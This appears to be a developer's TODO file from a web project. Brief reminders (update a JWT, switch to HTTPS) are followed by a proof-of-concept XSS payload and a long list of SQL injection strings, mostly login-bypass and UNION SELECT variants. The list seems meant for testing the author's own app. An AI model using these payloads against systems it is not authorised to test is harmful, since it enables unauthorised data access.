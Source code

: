 ## TODO ##

Check TODO comment to update with the new jwt
		//TODO: update with new jwt containing only ID

Change to https

checkmark of we ve done according to the subject


PoC XSS
"><img src=x onerror=alert('XSS')><div class="

SQL Injections payloads:
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
test' --
test' #
test'/*
test' or '1'='1
test' or '1'='1'--
test' or '1'='1'#
test' or '1'='1'/*
test'or 1=1 or ''='
test' or 1=1
test' or 1=1--
test' or 1=1#
test' or 1=1/*
test') or ('1'='1
test') or ('1'='1'--
test') or ('1'='1'#
test') or ('1'='1'/*
test') or '1'='1
test') or '1'='1'--
test') or '1'='1'#
test') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'test', '81dc9bdb52d04dc20036dbd8313ed055
test" --
test" #
test"/*
test" or "1"="1
test" or "1"="1"--
test" or "1"="1"#
test" or "1"="1"/*
test"or 1=1 or ""="
test" or 1=1
test" or 1=1--
test" or 1=1#
test" or 1=1/*
test") or ("1"="1
test") or ("1"="1"--
test") or ("1"="1"#
test") or ("1"="1"/*
test") or "1"="1
test") or "1"="1"--
test") or "1"="1"#